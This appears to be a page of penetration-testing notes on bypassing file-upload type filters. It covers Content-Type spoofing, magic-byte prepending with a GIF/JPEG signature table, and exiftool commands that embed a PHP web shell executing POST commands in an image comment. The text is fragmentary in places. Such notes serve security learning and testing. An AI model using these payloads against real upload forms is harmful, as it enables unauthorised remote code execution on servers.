

Bypass Type Filters
While extension filters may accept several extensions, content filters usually specify a single category (e.g., images, videos, documents)
There are two common methods for validating the file content:
• Content-Type Header
◇ browsers automatically set the Content-Type header when selecting a file through the file selector dialog, usually derived from the file extension.
• File Content
Bypass Content-Type & add bytes of a real image1.
Bypass Content-Type validation: checks by setting the value of the Content-Type header to: image/png , text/plain , application/octet-stream
Content-Type wordlist:
◇
https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt 2.
Bypass File Content validation:
To do that we need to testing the uploaded file's MIME-Type. Multipurpose Internet Mail Extensions (MIME) is an internet standard that determines the type of a file through its general format and bytes structure
This can be done by inspecting the first few bytes of the file's content, which contain the
File Signature or
Magic Bytes If we change the first bytes of any file to
another file type magic bytes, its MIME type would be changed to
another file type, regardless of its remaining content or extension.
Usually are used the GIF Magic Bytes becuase GIF is one of the easiest to imitate, as they are ASCII characters, while other extensions have magic bytes in binary non-printable (we should need to URL encode them) for their File/Hex signatures (for example contain a NULL byte), while a GIF image starts with ASCII printable bytes (as shown below). To check them see the
list of the signatures on wikipedia | Hex signature | ISO 8859-1 | Offset | Extension | Description |
|---|
| 47 49 46 38 37 61
47 49 46 38 39 61 | GIF87a
GIF89a | 0 | gif | Image file encoded in the Graphics Interchange Format (GIF)[7] |
| FF D8 FF EE
FF D8 FF DB
FF D8 FF E0
FF 4F FF 51 | ÿØÿî
ÿØÿÛ
ÿØÿà
ÿOÿQ | 0 | jpeg, jpg | JPEG raw or in the JFIF or Exif file format[ |
3.
Bypass with metadata inside file:
To use exiftool we need to edit a previously created image(example:img.jpg):
exiftool -comment='<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();' img.jpg
#if it does not work
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg Check metadata comments with:
with this method we do NOT need a shell listening but from the address bar insert the command line:
We can use a combination of the methods discussed above, which may help us bypass some more robust content filters.
To do that we can use Burp Intruder Cluster Bomb
see also:
https://infinitelogins.com/2020/08/07/file-upload-bypass-techniques/https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/Security Measures• apply filters
• turn off execution privileges so the exploits are never executed also if they get uploaded successfully